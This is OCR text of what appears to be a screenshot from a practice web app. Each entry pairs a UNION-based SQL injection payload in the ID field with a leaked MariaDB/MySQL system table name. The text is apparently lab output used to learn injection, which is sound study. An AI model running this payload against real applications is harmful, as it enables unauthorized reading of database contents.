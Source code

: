 First name: 
Surname: event
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: func
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: general_log
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: global_priv
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: gtid_slave_pos
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: help_category
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: help_keyword
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: help_relation
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: help_topic
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: index_stats
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: innodb_index_stats
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: innodb_table_stats
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: plugin
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: proc
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: procs_priv
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: proxies_priv
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: roles_mapping
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: servers
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: slow_log
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: tables_priv
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: table_stats
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 